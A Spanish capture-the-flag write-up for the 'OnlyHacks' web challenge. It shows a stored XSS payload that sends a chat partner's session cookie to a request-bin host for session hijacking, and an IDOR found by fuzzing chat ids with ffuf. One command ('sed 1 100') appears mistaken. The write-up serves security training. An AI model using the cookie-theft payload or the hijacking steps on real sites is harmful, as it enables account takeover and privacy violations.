 ```yaml
---
title: "OnlyHacks"
date: "2025-02-20T17:00:00-05:00"
type: "challenges"
draft: false
tags: ["Web", "Insecure Direct Object Reference (IDOR)", "XSS"]
---
```


Al ingresar a la url tenemos la opcion de registrarnos e iniciar sesión que es lo primero que vamos a hacer.

<a href="https://imgur.com/XA5fCKn"><img src="https://i.imgur.com/XA5fCKn.png" title="source: imgur.com" /></a>

Dentro podremos ver una web de citas en la que la unica persona interesante es Renata, esto debido a que nos dice que siempre esta conectada, por lo que le vamos a dar match y vamos a hablar con ella.

<a href="https://imgur.com/SPZKCYs"><img src="https://i.imgur.com/SPZKCYs.png" title="source: imgur.com" /></a>

En este punto hay dos formas de resolver la maquina una es haciendo un Cross-Site-Scripting y la otra es modifcando la url debido a que podemos ver que cada chat tiene un id.

Vamos a mostrar la primera si tratamos de usar un titulo html en la conversacion con renata este respondera al contenido:

```markdown
<h1>Hi</h1>
```

<a href="https://imgur.com/xZtJ9UZ"><img src="https://i.imgur.com/xZtJ9UZ.png" title="source: imgur.com" /></a>

Vamos a tratar de conseguir la cookie de su sesion con el siguiente comando:

```markdown
<script>document.location='http://requestbinLink?
c='+document.cookie</script>
```

Vamos a ir a esta pagina [http://requestbin.whapi.cloud/](http://requestbin.whapi.cloud/) crearemos una nueva request y remplazaremos la url en el comando, si hace click en el link y recargamos la pagina de la request tendremos lo siguiente:

<a href="https://imgur.com/KL2LC4b"><img src="https://i.imgur.com/KL2LC4b.png" title="source: imgur.com" /></a>

Remplazaremos esa cookie en el navegador usando inspeccionar y podremos ver los chats de renata junto con la flag.

<a href="https://imgur.com/gF6SYzC"><img src="https://i.imgur.com/gF6SYzC.png" title="source: imgur.com" /></a>

Ahora vamos con la segunda forma, cuando entramos al chat de renata podemos ver como la url es:

```markdown
http://94.237.55.96:37246/chat/?rid=6
```

Si cambiamos el valor del seis podremos ver otros chats hay una forma de probar esto de manera automatica con ffuf para verificar que sea un IDOR:

```bash
#Creamos el diccionario
sed 1 100 > id.txt

ffuf -w id.txt -u 'http://94.237.55.96:37246/chat/?rid=FUZZ' -H "Cookie: session=TUCOOKIE" -mc 200
```

Esto nos devolvio dos posibles chats pero uno es el nuestro por lo que si probamos con el otro tendremos nuevamente la flag.

<a href="https://imgur.com/EA0H2hP"><img src="https://i.imgur.com/EA0H2hP.png" title="source: imgur.com" /></a>
